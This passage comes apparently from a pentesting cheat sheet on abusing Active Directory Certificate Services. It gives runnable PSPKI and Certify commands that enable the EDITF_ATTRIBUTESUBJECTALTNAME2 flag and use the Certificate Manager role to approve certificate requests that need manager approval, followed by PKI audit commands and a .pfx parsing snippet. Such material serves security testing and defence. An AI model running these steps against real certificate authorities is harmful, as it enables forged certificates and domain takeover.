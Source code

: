```
PSPKI > $configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

# Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
Cmd > hostname
DC01
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -getreg "policy\EditFlags"
```

The "Certificate Manager" role allows to remotely approve pending certificate requests which can by used by an adversary to subvert the "CA certificate manager approval" protection:

```
# Request a certificate that requires manager approval with Certify
PS > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:ApprovalNeeded
...
[*] Request ID : 1337

# Approve a pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA01.megacorp.local | Get-PendingRequest -RequestID 1337 | Approve-CertificateRequest

# Download the issued certificate with Certify
PS > .\Certify.exe download /ca:CA01.megacorp.local\CorpCA /id:1337
```




## Audit

- [https://github.com/GhostPack/PSPKIAudit](https://github.com/GhostPack/PSPKIAudit)
- [https://github.com/TrimarcJake/adcs-snippets](https://github.com/TrimarcJake/adcs-snippets)

```
PS > Get-WindowsCapability -Online -Name "Rsat.*" | where Name -match "CertificateServices|ActiveDIrectory" | Add-WindowsCapability -Online
PS > cd PSPKIAudit
PS > Get-ChildItem -Recurse | Unblock-File
PS > Import-Module .\PSPKIAudit.psm1
PS > Invoke-PKIAudit -CAComputerName CA01.megacorp.local
```




## Misc

Parse `.pfx` with PowerShell:

```
PS > $cert = [System.Security.Cryptography.X509Certificates.X509Certificate2]([System.Convert]::FromBase64String("<BASE64_PFX_CERT>"))
PS > $cert | select *
```
